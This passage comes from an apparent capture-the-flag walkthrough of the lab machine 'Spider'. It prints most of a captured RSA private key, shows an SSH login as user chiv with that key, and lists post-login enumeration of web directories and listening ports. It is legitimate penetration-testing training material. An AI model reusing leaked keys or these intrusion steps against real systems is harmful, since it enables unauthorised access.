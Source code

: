 ```
BLRlsGclItrZB+p4w6pi0ak8NcoKVdeOLpQq0i58vXUCGqtp9iRA0UGv3xmHakM2                                       
VTZrVb7Q0g5DGbEXcIW9oowFXD2ufo2WPXym0QIDAQABAoIBAH4cNqStOB6U8sKu                                       
6ixAP3toF9FC56o+DoXL7DMJTQDkgubOKlmhmGrU0hk7Q7Awj2nddYh1f0C3THGs                                       
hx2MccU32t5ASg5cx86AyLZhfAn0EIinVZaR2RG0CPrj40ezukWvG/c2eTFjo8hl                                       
Z5m7czY2LqvtvRAGHfe3h6sz6fUrPAkwLTl6FCnXL1kCEUIpKaq5wKS1xDHma3Pc                                       
XVQU8a7FwiqCiRRI+GqJMY0+uq8/iao20jF+aChGu2cAP78KAyQU4NIsKNnewIrq                                       
54dWOw8lwOXp2ndmo3FdOfjm1SMNYtB5yvPR9enbu3wkX94fC/NS9OqLLMzZfYFy                                       
f0EMoUECgYEAxuNi/9sNNJ6UaTlZTsn6Z8X/i4AKVFgUGw4sYzswWPC4oJTDDB62                                       
nKr2o33or9dTVdWki1jI41hJCczx2gRqCGtu0yO3JaCNY5bCA338YymdVkphR9TL                                       
j0UOJ1vHU06RFuD28orK+w0b+gVanQIiz/o57xZ1sVNaNOyJUlsenh8CgYEAxDCO                                       
JjFKq+0+Byaimo8aGjFiPQFMT2fmOO1+/WokN+mmKLyVdh4W22rVV4v0hn937EPW                                       
K1Oc0/hDtSSHSwI/PSN4C2DVyOahrDcPkArfOmBF1ozcR9OBAJME0rnWJm6uB7Lv                                       
hm1Ll0gGJZ/oeBPIssqG1srvUNL/+sPfP3x8PQ8CgYEAqsuqwL2EYaOtH4+4OgkJ
mQRXp5yVQklBOtq5E55IrphKdNxLg6T8fR30IAKISDlJv3RwkZn1Kgcu8dOl/eu8
gu5/haIuLYnq4ZMdmZIfo6ihDPFjCSScirRqqzINwmS+BD+80hyOo3lmhRcD8cFb
0+62wbMv7s/9r2VRp//IE1ECgYAHf7efPBkXkzzgtxhWAgxEXgjcPhV1n4oMOP+2
nfz+ah7gxbyMxD+paV74NrBFB9BEpp8kDtEaxQ2Jefj15AMYyidHgA8L28zoMT6W
CeRYbd+dgMrWr/3pULVJfLLzyx05zBwdrkXKZYVeoMsY8+Ci/NzEjwMwuq/wHNaG
rbJt/wKBgQCTNzPkU50s1Ad0J3kmCtYo/iZN62poifJI5hpuWgLpWSEsD05L09yO
TTppoBhfUJqKnpa6eCPd+4iltr2JT4rwY4EKG0fjWWrMzWaK7GnW45WFtCBCJIf6
IleM+8qziZ8YcxqeKNdpcTZkl2VleDsZpkFGib0NhKaDN9ugOgpRXw==
-----END RSA PRIVATE KEY-----
```

Perfect, now we can SSH in. Copy and paste the key info into a file and `chmod 400 keyFile` so we can use. To actually SSH into chiv, use `ssh chiv@spider.htb -i keyFile`. 

```
└─# ssh chiv@spider.htb -i key 
Last login: Fri May 21 15:02:03 2021 from 10.10.14.7
chiv@spider:~$ 
```

Now that we're in, a quick view into the `/var/www` directory and `netstat -tulpn` shows us that there's another website running. Judging by file permissions on `/var/www/game`, it's a root run website, and using `ps -aux | grep game` confirms this for us.

```
chiv@spider:~$ ls -l /var/www
total 12
drw-r--r-- 6 root www-data 4096 May 18 00:23 game
drwxr-xr-x 2 root root     4096 May 18 00:23 html
drwxr-xr-x 5 chiv chiv     4096 Nov  1 20:09 webapp
chiv@spider:~$ netstat -tulpn
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
```